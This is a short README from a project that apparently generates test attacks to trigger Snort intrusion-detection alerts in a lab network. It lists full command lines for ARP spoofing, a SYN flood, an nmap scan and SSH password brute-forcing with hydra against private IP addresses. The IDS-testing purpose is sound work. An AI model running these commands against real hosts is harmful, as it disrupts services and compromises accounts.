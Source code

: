 # src
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **kicktheamount**: Tool to perform and ARP spoofing on the victim.

```
 sudo python3 kickthemout.py --target 192.168.1.10
``` 

 - **syn_flood**: Tool to be used for the Syn Flood Attack.
 
```
sudo python syn_flood.py -d 192.168.1.10 -p 22 -t 1

sudo python syn_flood.py -d <ip> -p <port> -t <number of threads>
```
  
  
- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```
 
 - **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```